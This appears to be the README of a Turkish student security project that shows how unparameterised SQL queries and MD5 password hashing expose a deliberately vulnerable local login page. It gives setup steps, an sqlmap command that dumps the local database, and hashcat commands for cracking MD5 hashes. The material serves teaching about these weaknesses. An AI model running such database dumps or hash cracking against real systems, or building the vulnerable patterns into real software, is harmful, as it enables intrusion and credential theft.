








# SQL Injection MD5 Not Safe

## İçindekiler
- [Proje Hakkında](#proje-hakkinda)
- [Proje Amacı](#proje-amaci)
- [Kullanılan Araçlar ve Teknolojiler](#kullanim-araclar-ve-teknolojiler)
- [Proje Görselleri](#proje-gorselleri)
- [Kullanım Talimatları](#kullanim-talimatlari)
  - [Gereksinimler](#1-gereksinimler)
  - [Kurulum](#2-kurulum)
- [SQL Injection Deneme Komutları](#sql-injection-deneme-komutlari)
- [Hashcat Kullanımı](#hashcat-kullanimi)

---

## Proje Hakkında

Bilişim Güvenliği Teknolojileri bölümü öğrencileri olarak **Kriptoloji** dersinde, güvensiz şifreleme algoritmalarının veri tabanında kullanılması sonucu doğurabileceği güvenlik zaafiyetlerini **SQL Injection** güvenlik açığı üzerinden göstermeyi amaçladık. Bu projede, **MD5** şifreleme algoritmasının SQL Injection saldırılarıyla nasıl güvenlik açığı oluşturduğunu ve bu açığın nasıl istismar edilebileceğini inceleyeceğiz.

Bu projede **login.html** ve **vulnerable_login.html** olmak üzere iki adet endpoint bulunmaktadır. Burada amaç, **parametresiz SQL sorgularının doğurduğu güvenlik açığını** göstermektir. **Dikkat:** *login.html tamamen güvenli değildir*. Buradaki asıl amaç, **SQL güvenlik zaafiyetine neden olan doğrudan ve parametresiz SQL sorgulamalarını** açıklamaktır.

---

## Proje Amacı

Bu proje, güvensiz bir şekilde uygulama içinde **MD5** gibi kırılgan şifreleme algoritmalarının kullanımının güvenlik risklerini vurgulamaktadır. **SQL Injection** saldırıları kullanılarak veritabanındaki şifreler kırılmaya çalışılacak ve veri tabanındaki hassas bilgilere ulaşılabilecektir. Proje, bu tür saldırılardan korunma yolları üzerine farkındalık yaratmayı hedeflemektedir.

---

## Kullanılan Araçlar ve Teknolojiler

- **MD5 (Message Digest Algorithm 5):** Güvensiz şifreleme algoritması olarak kullanılmaktadır.
- **SQLMap:** SQL Injection zafiyetlerini keşfetmek ve istismar etmek için kullanılan açık kaynaklı bir araç.
- **Hashcat:** Şifre çözme (cracking) aracı. Şifreli veriler üzerinde brute force saldırıları gerçekleştirerek zayıf şifreleme algoritmalarını çözmek için kullanılır.

---

## Proje Görselleri

Aşağıda projenin çalışmasıyla ilgili bazı görseller yer almaktadır:


*Ana Sayfa*


*Giriş Ekranı*


*Kayıt Ekranı*


*SQL Injection Saldırısı*


*SQL Injection Saldırısı*


*Hashcat Aracı Kullanımı*


*Hashcat hash değerimizi buldu*


*Bulunan hash değerimiz*

---

## Kullanım Talimatları

### 1. Gereksinimler
Projeyi çalıştırabilmek için aşağıdaki yazılımların sisteminizde kurulu olması gerekmektedir:

- Python 3.x
- Node.js
- SQLMap ([Buradan İndir](https://github.com/sqlmapproject/sqlmap))
- Hashcat ([Buradan İndir](https://hashcat.net/hashcat/))

### 2. Kurulum

Öncelikle Node.js’in bilgisayarınıza yüklü olduğundan emin olun.
[Node.js İndir](https://nodejs.org/en/download)

Ardından projeyi GitHub üzerinden klonlayın:
```bash
git clone https://github.com/Kerim3mr3/sql_injection_md5_notsafe.git
cd sql_injection_md5_notsafe
```
Gerekli bağımlılıkları yükleyin:
```bash
npm install express sqlite3 body-parser express-session crypto dotenv
```
Sunucuyu başlatmak için:
```bash
node server.js 
# veya
npm start
```

---

## SQL Injection Deneme Komutları

SQLMap kullanarak SQL Injection saldırısı:
```bash
py sqlmap.py -u "http://localhost:3000/vulnerable_login" --method POST --data "username=test&password=test" --dump-all --batch --flush-session
```

---

## Hashcat Kullanımı

Elde edilen hash’in türünü belirlemek için Hashcat kullanımı:
```bash
hashcat --identify <hash_value>
```

MD5 hash kırmak için Hashcat kullanımı:
```bash
hashcat -m 0 -a 3 -d 1 -w 4 -o cracked.txt --show hash.txt ?a?a?a?a?a
```

